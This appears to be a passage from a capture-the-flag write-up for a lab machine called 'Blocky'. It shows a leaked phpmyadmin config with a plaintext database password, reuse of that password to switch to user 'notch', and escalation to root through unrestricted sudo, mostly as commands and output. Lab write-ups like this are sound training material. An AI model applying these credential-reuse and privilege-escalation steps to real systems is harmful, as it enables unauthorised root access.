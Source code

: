```
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='8YsqfCTnvxAUeduzjNSXe22';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='';
$dbtype='mysql';
```
Now using this credentials we can try to escalate to another user and as we can see we can successfully escalate to "notch"
```
www-data@Blocky:/var/www/html$ su - notch
Password:
notch@Blocky:/var/www/html$
```

## Root
Now that we got user, first thing first let's check if we do have any sudo capability on this box:
```
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
Sudo asks for password, but as we are logged in using a password, we can provide the password and retrive sudo capabilities list.
Given the sudo permission, we can easilly escalate to root by simply doing:
```
notch@Blocky:~$ sudo su -
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~#
```

